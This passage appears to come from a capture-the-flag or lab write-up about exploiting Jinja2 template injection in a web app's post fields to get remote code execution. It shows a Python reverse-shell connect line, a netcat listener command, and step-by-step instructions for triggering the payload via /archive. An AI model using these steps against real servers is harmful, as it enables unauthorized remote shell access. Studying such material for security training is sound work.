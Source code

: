 This ensures that when we **connect back**, we get an **interactive shell** instead of just a single command execution.

***

#### **Also, Don’t Forget the Port!**

```python
s.connect(("ip",4444))
```

* The number **4444** is the **port we need to listen on**.
*   Before running the payload, make sure to **set up a listener** on your attacking machine:

    ```bash
    nc -lvnp 4444
    ```

    This will **catch** the incoming connection and drop us into a shell.

***

### Testing Our RCE Payload

1. Craft a new message post, placing the Jinja2 RCE payload in the Title or Content field.
2. Save the post, confirm it appears under `/home`.
3. Start a netcat listener on port 4444:
4. `nc -lvnp 4444`
5. Browse to `/archive` to make the server parse our post.

<figure><img src="../../.gitbook/assets/title-payload.png" alt=""><figcaption></figcaption></figure>



We see the post was accepted. When we load `/archive`, it should attempt to run our Python one-liner. If the IP and port match your listener, you should catch a reverse shell:

<figure><img src="../../.gitbook/assets/jinja-payload-failed.png" alt=""><figcaption></figcaption></figure>
